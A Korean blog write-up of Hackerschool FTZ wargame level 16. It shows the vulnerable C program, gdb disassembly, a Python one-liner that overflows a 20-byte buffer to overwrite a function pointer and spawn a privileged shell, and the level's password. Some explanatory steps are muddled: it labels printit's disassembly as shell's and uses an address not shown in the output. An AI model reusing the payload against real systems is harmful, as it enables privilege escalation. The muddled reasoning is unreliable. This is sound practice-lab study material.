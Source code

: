 ```yaml
---
date: '2022-10-05'
before : '2022-10-06'
after : '2022-10-07'
title: '시스템 해킹(12) : 해커스쿨 FTZ 레벨 16'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```

### 0. 들어가기 전에.
여기까지 오니 슬슬 disas해서 스택을 살펴보는 과정은 (적어도 간단한 프로그램에선) 익숙해지는 것 같다!

### 1. Level 16

오늘은 함수 포인터에 관한 문제다. 소스코드를 확인해보자!
```
#include <stdio.h>

void shell() {

  setreuid(3097,3097);

  system("/bin/sh");

}

void printit() {

  printf("Hello there!\n");

}

main()

{ int crap;

  void (*call)()=printit;

  char buf[20];

  fgets(buf,48,stdin);

  call();

}
```
void(*call)()=printit 부분에서 printit의 포인터를 가져와 call()로 실행시켜준다. 즉, 그냥 printit을 실행하는 함수이다. fgets에서 48바이트 입력받으니 오버플로우는 충분히 가능하다. 그럼 우리가 해야 할 일은?


**shell 함수의 메모리 주소를 찾아내 *call에 덮어씌우면 된다!**

gdb에서 disas shell을 해보니 :
```
0x08048500 <printit+0>: push   ebp
0x08048501 <printit+1>: mov    ebp,esp
0x08048503 <printit+3>: sub    esp,0x8
0x08048506 <printit+6>: sub    esp,0xc
0x08048509 <printit+9>: push   0x80485c0
0x0804850e <printit+14>:        call   0x80483a4 <printf>
0x08048513 <printit+19>:        add    esp,0x10
0x08048516 <printit+22>:        leave
0x08048517 <printit+23>:        ret

```
ebp가 08048500을 가리키는 것을 볼 수 있다. 따라서 그냥 저 주소를 BOF공격으로 넣어주면 된다. 우리 배열부터 call 포인터까지의 거리는 main을 disas해보면 알 수 있을것이다 : 
```
0x08048518 <main+0>:    push   ebp
0x08048519 <main+1>:    mov    ebp,esp
0x0804851b <main+3>:    sub    esp,0x38
0x0804851e <main+6>:    mov    DWORD PTR [ebp-16],0x8048500
0x08048525 <main+13>:   sub    esp,0x4
0x08048528 <main+16>:   push   ds:0x80496e8
0x0804852e <main+22>:   push   0x30
0x08048530 <main+24>:   lea    eax,[ebp-56]
0x08048533 <main+27>:   push   eax
0x08048534 <main+28>:   call   0x8048384 <fgets>
0x08048539 <main+33>:   add    esp,0x10
0x0804853c <main+36>:   mov    eax,DWORD PTR [ebp-16]
0x0804853f <main+39>:   call   eax
0x08048541 <main+41>:   leave
0x08048542 <main+42>:   ret
0x08048543 <main+43>:   nop
0x08048544 <main+44>:   nop
0x08048545 <main+45>:   nop
0x08048546 <main+46>:   nop
0x08048547 <main+47>:   nop
0x08048548 <main+48>:   nop
0x08048549 <main+49>:   nop
```
저번 문제와 똑같이 거리는 40이다. 그럼 공격 코드도 다음과 같을 것이다 :
```
(python -c 'print "A"*40+"\xd0\x84\x04\x08"'; cat) | ./attackme
```
실행하면 Shell을 얻을 수 있다! 이 문제 또한 간단한 것 같다.


비밀번호 : king poetic
---
## Source

- 해커스쿨 FTZ
- Me!
